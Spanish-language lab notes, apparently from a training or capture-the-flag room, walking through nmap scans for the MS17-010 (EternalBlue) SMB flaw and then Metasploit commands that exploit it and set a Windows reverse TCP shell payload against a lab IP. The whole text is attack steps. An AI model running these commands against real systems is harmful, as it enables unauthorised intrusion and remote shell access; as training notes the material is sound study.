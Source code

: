 Parte 1:

nmap 10.10.38.140 --scaneo de la ip

nmap -vv -sV -A -O -sC -p 135,139,445,3389 10.10.38.140 --scaneo de los purtos abiertos y sistema operativo

nmap --script smb-vuln-ms17-010 -p445 10.10.38.140 --scaneo para saber si la maquina es vulnerable a este excploit tras la verison del sistema operativo\\

estos 3 pasos se pueden hacer asi: ```nmap -vv -sV -sC -O -A -p445 -T4 --script vuln <ip>```

Parte 2:

usamos msfconsole

search ms17 --para buscar el exploit en metasplit y poder usarlo

use 0 --es el exploit que necesitamos

show options -- para ver que opciones debemos ajustar como el RHOSTS

set RHOSTS 10.10.38.140 --apra poder atacar a la maquina

set payload windows/x64/shell/reverse_tcp --lo dice el ejercicio

run --ejecutamos el exploit

